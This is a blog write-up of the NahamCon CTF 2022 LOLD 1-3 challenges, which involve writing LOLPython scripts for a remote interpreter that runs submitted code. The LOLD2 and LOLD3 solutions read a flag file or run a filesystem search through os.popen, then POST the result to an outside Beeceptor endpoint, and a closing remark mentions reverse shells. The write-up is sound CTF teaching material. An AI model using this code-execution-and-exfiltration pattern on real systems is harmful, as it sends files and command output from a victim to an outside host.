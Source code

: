 ```yaml
---
title: NahamCon CTF 2022 - LOLD 1, 2, 3 Writeup
published: true
---
```


With the warmup over, lets move on to the LOLD scripting challenges.  There's 3 of them, with 1 being easy, 2 medium and 3 hard, and they all use an abomination of a language....

# LOLD

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT /flag.txt.
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 30710

A quick google for LOLPython and.... [oh dear god what is this](http://www.dalkescientific.com/writings/diary/archive/2007/06/01/lolpython.html).  Someone took LOLCode and Python and combined them.  And now I need to learn it.

So for this challenge it looks like we need to write a script to read the flag and output the value.  Thankfully the bottom example in that link has all we need for reading a file.  So stealing that we get the following LOLPython saved as get_flag.lol:

```
F CAN HAS open WIT "flag.txt"!
S CAN HAS F OWN read THING
VISIBLE S
```

I'm so sorry, for some reason my syntax highlighter doesn't support LOLPython.  I'll file a bug.  In the meantime here's the first line in red with the python it turns in to in blue below.

![lold to python]({{ site.url }}/assets/post-images/nahamcon-lold/lold1-to-python.png)

- Line 2 calls read on F (I'll skip the bits we've already covered):
  - `OWN` is `.`
  - `THING` is `()`.  You could also use `WIT!` but I guess that doesn't make any sense in LOL speak.
- Line 3 prints the result.  `VISIBLE` is just `PRINT`.

So now we can just send that to the nc server:

```bash
cat get_flag.lol | nc challenge.nahamcon.com 30710
```

And with that we get the flag `flag{c1146bd8b0079fd75f857003afe2cc49}`


# LOLD2
> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT /flag.txt!
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 31263

The pain continues.  The trick with this one is that the interpreter doesn't send any output back to us, so we can't just read the flag - we need to send it somewhere.  Thankfully services such as [Beeceptor](https://beeceptor.com/) make this pretty painless.  Create an endpoint (I used blarg.free.beeceptor.com) and it'll sit there listening for requests.

As we can no longer see any errors from the remote interpreter we also need to get this nightmare running locally.  Install Python2, then download the latest [ply](http://www.dabeaz.com/ply/) and copy the `ply` folder into your code base.  Then create a flag.txt file so you can test.  It'll look something like this:

![lold2 file structure]({{ site.url }}/assets/post-images/nahamcon-lold/lold2-structure.png)

We can then use the following code to grab the flag contents and post it to our beeceptor link.

```
GIMME httplib

U CAN HAS "blarg.free.beeceptor.com:80"
H CAN HAS INVISIBLE BUCKET
H LET THE "Content-type" OK CAN HAS "text/plain"
F CAN HAS open WIT "flag.txt"!
S CAN HAS F OWN read THING
C CAN HAS httplib OWN HTTPConnection WIT U!
C OWN request WIT "POST" AND "/test" AND S AND H!
R CAN HAS C OWN getresponse THING
VISIBLE R OWN read THING
```

OK strap in, here we go (skipping the file reading we've already covered in part 1):

| LOLPython         | python     |
|--------------|-----------|
| `GIMME httplib` | `import httplib` |
| `H CAN HAS INVISIBLE BUCKET` | `H = {}` |
| `H LET THE "Content-type" OK CAN HAS "text/plain"` | H["Content-type"] = "text/plain"` |
| `C CAN HAS httplib OWN HTTPConnection WIT U!` | `C = httplib.HTTPConnection(U)` |
| `C OWN request WIT "POST" AND "/test" AND S AND H!` | `C.request("POST", "/test", S, H)` |
| `R CAN HAS C OWN getresponse THING` | `R = C.getresponse()`|


So in short we read the file contents, then post it to `http://blarg.free.beeceptor.com:/test`.

This then gives us the flag in beeceptor:

![lold2 result]({{ site.url }}/assets/post-images/nahamcon-lold/lold2-result.png)

# LOLD3

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!!
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 31263

Very similar to part 2 except we first need to find the flag.  The bash command `find / -name flag.txt -type f 2>/dev/null` can find it, so we'll write some LOLPython to run that via `os.popen` and post the results to beeceptor:

```
GIMME httplib
GIMME os

U CAN HAS "blarg.free.beeceptor.com:80"
H CAN HAS INVISIBLE BUCKET
H LET THE "Content-type" OK CAN HAS "text/plain"
O CAN HAS os OWN popen WIT "find / -name flag.txt -type f 2>/dev/null"!
S CAN HAS O OWN read THING
C CAN HAS httplib OWN HTTPConnection WIT U!
C OWN request WIT "POST" AND "/test" AND S AND H!
R CAN HAS C OWN getresponse THING
VISIBLE R OWN read THING
```

This gives us the following flag locations:

![lold3 flag locations]({{ site.url }}/assets/post-images/nahamcon-lold/lol3-flag-locations.png)

We can then use the code from part 2 with the path changed to get the final flag and end this torment:

```
GIMME httplib

U CAN HAS "blarg.free.beeceptor.com:80"
H CAN HAS INVISIBLE BUCKET
H LET THE "Content-type" OK CAN HAS "text/plain"
F CAN HAS open WIT "/opt/challenge/flag.txt"!
S CAN HAS F OWN read THING
C CAN HAS httplib OWN HTTPConnection WIT U!
C OWN request WIT "POST" AND "/test" AND S AND H!
R CAN HAS C OWN getresponse THING
VISIBLE R OWN read THING
```

![lold3 flag locations]({{ site.url }}/assets/post-images/nahamcon-lold/lold3-complete.png)

As a side note I know some people solved 2 and 3 by creating a reverse shell in LOLPython.  I'll leave that as an exercise for whoever wants it.